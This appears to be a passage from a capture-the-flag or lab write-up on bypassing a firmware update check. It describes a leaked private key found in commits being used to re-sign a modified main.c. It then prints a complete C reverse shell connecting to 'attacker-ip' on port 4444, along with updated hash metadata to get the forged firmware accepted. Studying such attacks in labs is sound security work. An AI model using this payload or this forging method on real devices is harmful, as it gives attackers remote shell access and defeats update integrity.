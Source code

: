 It removes the signature from the file and checks against `firmware_meta.json` to see if signature is valid. Then it calculates SHA256 hash for the `main.c` file then compares it with `firmware_hash` in the metadata file. If both the checks passed then it builds and copies the firmware to the device. 

We have identified a private key from commits. It can be used to create signature after modifying the `main.c` file. Let's change the contents of `main.c` to reverse shell file. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main() {
    int sock;
    struct sockaddr_in server;
    char *ip = "attacker-ip";
    int port = 4444;
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == -1) {
        perror("socket");
        exit(1);
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(port);
    server.sin_addr.s_addr = inet_addr(ip);

    if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
        perror("connect");
        exit(1);
    }

    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);

    execl("/bin/sh", "sh", NULL);

    return 0;
}
```

Generate sha256sum and update it on `firmware_meta.json`. Remove signature as well.

```json
{
  "timestamp": "2025-04-22T10:44:52Z",
  "firmware_hash": "21a730fb69d32a3e68bbcd920c7cfc893692ade3367788b77257bced3c3cd282"
}

```
